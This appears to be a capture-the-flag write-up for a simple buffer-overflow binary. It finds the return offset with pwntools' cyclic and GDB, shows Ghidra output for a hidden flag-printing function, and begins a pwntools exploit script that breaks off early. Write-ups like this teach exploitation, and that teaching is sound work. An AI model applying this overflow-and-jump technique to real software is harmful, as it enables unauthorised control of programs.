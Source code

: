 Looks like a simple bof. We can directly find out the offset using GDB and `cycle` from pwntools:
```bash
$ cyclic 100
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
$ gdb ./service
...
gef➤  r
Starting program: /home/vivescere/ctf/bof_1/service 
hello who are you?
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
...
$rbp   : 0x6161616e6161616d ("maaanaaa"?)
...
[!] Cannot disassemble from $PC
────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "service", stopped 0x4019a8 in main (), reason: SIGSEGV
──────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x4019a8 → main()
───────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  q
$ cyclic -l 0x6161616e
52
```

We have the offset, and could probably use a ropchain to pop a shell. But that's not the goal of this level. Using Ghidra again, we search for the flag format (`CYBERTF{...}`). An interesting function pops up: `magie`.

```c
void magie(int param_1) {
  int iVar1;
  undefined8 local_15;
  undefined4 local_d;
  undefined local_9;
  
  local_15 = 0x7b46545245425943;
  local_d = 0x7d595a59;
  local_9 = 0;
  if ((param_1 != -1) && (iVar1 = thunk_FUN_004010e6("CYBERTF{YZY}",&local_15), iVar1 != 0)) {
    puts("CYBERTF{_____________________}");
    return;
  }
  puts("Good Way");
  return;
}
```

`CYBERTF{_____________________}` is replaced by the real flag when connecting to the challenge remotely. A check seems to be in place, but we can simply jump past it.

After whipping out a quick script (using [pwninit](https://github.com/io12/pwninit)), we get the flag:
```python
#!/usr/bin/env python3
from pwn import *

exe = ELF("./service")

context.binary = exe
context.terminal = ['konsole', '-e']

def conn():
    if args.LOCAL:
        r = process([exe.path])
```